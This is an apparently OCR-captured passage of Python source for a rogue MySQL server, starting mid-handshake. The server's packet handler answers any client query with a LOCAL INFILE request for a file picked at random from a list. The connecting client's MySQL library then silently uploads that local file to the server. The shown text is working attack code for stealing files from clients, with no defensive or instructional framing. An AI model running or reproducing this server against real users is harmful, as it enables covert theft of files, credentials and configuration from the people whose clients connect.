 ```python
                    '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00',
                ))            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
                        PACKET = mysql_packet(
                            packet,
                            '\xFB{0}'.format(filename)
                        )
                        self.set_terminator(3)
                        self.state = 'LEN'
                        self.sub_state = 'File'
                        self.push(PACKET)
                    elif packet.payload[0] == '\x1b':
                        log.info('SelectDB')
                        self.push(mysql_packet(
                            packet,
                            '\xfe\x00\x00\x02\x00'
                        ))
                        raise LastPacket()
```